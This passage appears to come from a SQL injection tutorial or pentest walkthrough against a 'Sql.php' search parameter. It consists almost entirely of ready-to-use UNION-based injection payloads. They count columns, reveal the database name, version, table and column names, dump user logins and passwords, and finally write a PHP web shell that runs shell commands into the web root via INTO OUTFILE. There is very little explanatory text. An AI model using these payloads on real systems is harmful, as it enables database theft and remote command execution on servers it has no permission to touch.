 ```
Sql.php?search =' and 1 = 0 union all select 1,1,1,1,1,1,1 from information_schema.tables where 1=0 or 1=1-- '
```

We continue adding ‘1’s until we don’t receive any error from the page. Only then we know how many columns by counting the ‘1’s. Then we try to find the database name, table names, columns of target table

```
Sql.php?search=pentesting’ union select 1,database(),@@version,1,1,1,1#
```

Or

```
Sql.php?search =' and 1 = 0 union all select 1,database(),@@version,1,1,1,1 from information_schema.tables where 1=0 or 1=1-- '
```

```
Sql.php?search=pentesting’ union select 1,table_name,1,1,1,1,1 from information_schema.tables#
```

Or

```
Sql.php?search =' and 1 = 0 union all select 1,table_name,1,1,1,1,1 from information_schema.tables where 1=0 or 1=1-- '
```

```
Sql.php?search=pentesting’ union select 1,column_name,1,1,1,1,1 from information_schema.columns where table_name=’users’#
```

Or

```
Sql.php?search =' and 1 = 0 union all select 1,column_name,1,1,1,1,1 from information_schema.columns where table_name = 'users'-- '
```

```
Sql.php?search=pentesting’ union select 1,login,user,password,1,1,1 from users#
```

Or

```
Sql.php?search = ' and 1=0 union all select 1,login,password,secret,email,admin,7 from users-- -
```

```
Sql.php?search=pentesting’ union select 1, "<?php echo shell_exec($_GET['cmd'])?>",1,1,1,1,1 into outfile "/var/www/html/shell3.php"#
```

Or

```
Sql.php?search= ' and 1=0 union all select 1, "<?php echo shell_exec($_GET['cmd'])?>",1,1,1,1,1 into outfile "/var/www/html/shell3.php"#
```
